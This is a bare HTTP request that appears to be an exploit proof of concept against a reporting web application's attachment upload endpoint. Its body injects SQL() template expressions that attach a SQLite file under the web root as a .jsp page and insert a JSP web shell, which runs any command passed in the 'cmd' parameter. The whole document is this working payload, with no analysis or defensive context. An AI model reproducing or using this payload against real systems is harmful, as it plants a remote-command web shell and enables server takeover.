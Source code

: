 POST /webroot/decision/view/form?op=fr_attach&cmd=aH_upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9nWtz5kBq3EiN5Jp
Connection: close

------WebKitFormBoundary9nWtz5kBq3EiN5Jp
Content-Disposition: form-data; name="file"; filename="a"
Content-Type: text/xml

${SQL("FRDemo","	ATTACH DATABASE '../webapps/webroot/ctc.jsp' as psox;",1,1)}
${SQL("FRDemo","	CREATE TABLE psox.exp(data text);",1,1)}
${SQL("FRDemo","	INSERT INTO psox.exp(data) VALUES ('<%out.println(\"hallo\");Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>');",1,1)}
------WebKitFormBoundary9nWtz5kBq3EiN5Jp--
